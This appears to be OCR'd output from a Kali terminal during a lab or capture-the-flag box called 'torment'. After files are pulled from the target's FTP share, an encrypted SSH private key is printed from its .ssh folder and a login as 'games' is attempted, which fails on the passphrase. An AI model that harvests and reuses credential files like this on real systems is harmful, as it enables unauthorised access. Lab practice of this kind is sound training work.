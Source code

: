 ┌──(kali㉿kali)-[~/…/boxes/torment/ftp/192.168.110.21]
└─$ ls -al .ngircd 
total 16
drwxr-xr-x  2 kali kali 4096 Apr 22 09:24 .
drwxr-xr-x 11 kali kali 4096 Apr 22 09:24 ..
-rw-r--r--  1 kali kali   33 Jan  4  2019 channels
-rw-r--r--  1 kali kali  185 Apr 22 09:24 .listing

└─$ cat 192.168.110.21/.ngircd/channels
channels:
games
tormentedprinter


└─$ cat 192.168.110.21/.ssh/id_rsa     
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,C37F0C31D1560056EA1F9204EC405986

U9X/cW7GIiI48TQAzUs5ozEQgexHKiFi2NcoADhs/ax/CTJvZh32k+izzW0mMzl1
mo5HID0qNghIbVbRcN6Zv8cdJ/AhREjy25YZ68zA7GWoyfoch1K/XY0NEnNTchLf
b6k5GEgu5jfQT+pAj1A6jQyzz4A4CGbvD+iEEJRX3qsTlAn6th6dniRORJggnVLB
K4ONTeP4US7GSGTtOD+hwoyoR4zNQKT2Hn/WryoF7LdAXMwf1aNJJJ7YPz1YdSnU
fxXscbOMlXuZ4ouawIVGeYeH85lmOh7aBy5MWsYq/vNC+2pVzVEkRfc6jug1UbdG
hncWxfU92Q47lVuqtc4HPINynD2Q8rBlYrKsEbPqtLyCnBGM/T0Srzztj+IjXUD1
SdbVLmxascquwnIyv2w55vjwJv5dKjLBmrDiY0Doc9YYCGi6cz1p9tsE+G+uRg0r
hGuFXldsYEkoQcJ4iWjsYiqcwWWFfkN+A0rYXqqcDY+aqAy+jXkhyzfmUp3KBz9j
CjR1+7KcmKvNXtjn8V+iv2Nwf+qc2YzBNkBWlwHhxIz6L8F3k3OkqnZUqPKCW2Ga
CNMcIYx3+Gde3aXpHXg4OFALV7y23N8A2h97VOqnnrnED46C39shkA8iiMNdH9mz
87TWgw+wPLbWXJO7G5nJL0qciLV/Eo6atSof3FUx/4WX4fmYeg1Rdy0KgTC1NRGn
VT/YnlBrNW3f7fdhk/YhHbcT9vCg9/Nm3hmzQX/FBP085SgeEA+ebNMzQwPmqcfb
jGpMPdhD7iLmKPwQL3RFTVODjUyzsgJ6kz83aQd80qPClopqp4NFMLwATVpbN858
d4Q0QQGrCRqu2SYaYmVhGo37BJXKE11y0JzWXOhiVLD0I9fBoHDmsKHN4Aw3lbVE
/n+B0Qa1bIMGfXP7J4r7/+4trQCGi7ngVfhtygtg6j/HcoXDy9y15zrHZqKerWd6
6ApM1caan4T0FjqlqTOQsN5GmB9sBCu02VQ1QF3Z4FVA9oW+pkNFxAeKIddG1yLM
5L1ePDgEYjik6vM1lE/65c7fNaO8dndMau4reUnPbTFqKsTA46uUaMyOV6S7nsys
kHGcAXLEzvbC8ojK1Pg5Llok6f8YN+H7cP6vE1yCfx3oU3GdWV36AgBWLON8+Wwc
icoyqfW6E2I0xz5nlHoea/7szCNBI4wZmRI+GRcRgegQvG06QvdXNzjqdezbb4ba
EXRnMddmfjFSihlUhsKxLhCmbaJk5mG2oGLHQcOurvOUPh/qgRBfUf3PTntuUoa0
0+tGGaLYibDNb5eXQ39Bsjzm8BWG/dSK/Qq7UU4Bk2bTKikWQLazPAy482BsZpWI
mXt8ISmJqldgdrtnVvG3zoQBQpspZ6HTojheNazfD4zzvduQguOcKrCNICxoSRgA
egRER+uxaLqNGz+6H+9sl7FYWalMa+VzjrEDU7PeZNgOj9PxLdKbstQLQxC/Zq6+
7kYu2pHwqP2HcXmdJ9xYnptwkuqh5WGR82Zk+JkKwUBEQJmbVxjqWLjCV/CDA06z
6VvrfrPo3xt/CoZkH66qcm9LCTcM3DsLs3UT4B7aH5wk4l5MmpVI4/mx2Dlv0Mkv
-----END RSA PRIVATE KEY-----


┌──(kali㉿kali)-[~/…/torment/ftp/192.168.110.21/.ssh]
└─$ ssh games@192.168.110.21 -i id_rsa 
The authenticity of host '192.168.110.21 (192.168.110.21)' can't be established.
ECDSA key fingerprint is SHA256:j4tPl3yMyRkAqU6jeez9Fdc9yMeUXdE7wAjddbafk/o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.110.21' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
games@192.168.110.21: Permission denied (publickey).
